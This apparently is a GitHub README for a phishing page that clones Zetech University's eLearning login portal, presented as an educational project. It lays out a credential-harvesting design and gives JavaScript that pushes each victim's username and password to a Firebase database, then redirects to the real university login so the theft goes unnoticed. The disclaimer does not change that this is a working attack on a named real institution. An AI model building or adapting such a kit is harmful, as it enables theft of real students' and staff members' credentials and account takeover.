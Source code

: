 # 🎣 Zetech eLearning Phishing Simulation (EDUCATIONAL PURPOSES ONLY)

> **⚠️ DISCLAIMER:** This project was created strictly for educational purposes as part of my cybersecurity learning. It should **never** be used against real users, systems, or without explicit written permission from the owners of the targeted platforms. Misuse of this tool can lead to serious legal consequences.

## 📚 Project Summary

This repository contains a simulated phishing page that mimics Zetech University's eLearning login portal. The purpose of this project was to understand how phishing attacks are designed and executed, as well as how user credentials can be harvested in real-time using modern technologies such as **Firebase Realtime Database**.

---

## 🎯 Objectives

- Clone a real-world login page (Zetech eLearning).
- Integrate the form with Firebase to collect credentials in real-time.
- Redirect the user to the actual login page after submission.
- Demonstrate how social engineering and spoofing tactics work in real-world scenarios.

---

## ⚙️ Technologies Used

- HTML/CSS (Exact clone of the real login page)
- Firebase Realtime Database
- JavaScript
- Bootstrap (for UI)
- Social Engineering techniques

---

## 🔐 Firebase Integration

Firebase was used to store phished credentials in real-time. Here's how it works:

1. The user enters their credentials on the spoofed page.
2. JavaScript captures the input and writes it to the Firebase database:
    ```js
    firebase.database().ref('phishing_data').push({
        username: username,
        password: password,
        timestamp: new Date().toISOString()
    });
    ```
3. The user is then redirected to the **real** Zetech eLearning login page:
    ```js
    window.location.href = 'https://elearning.zetech.ac.ke/login/index.php';
    ```




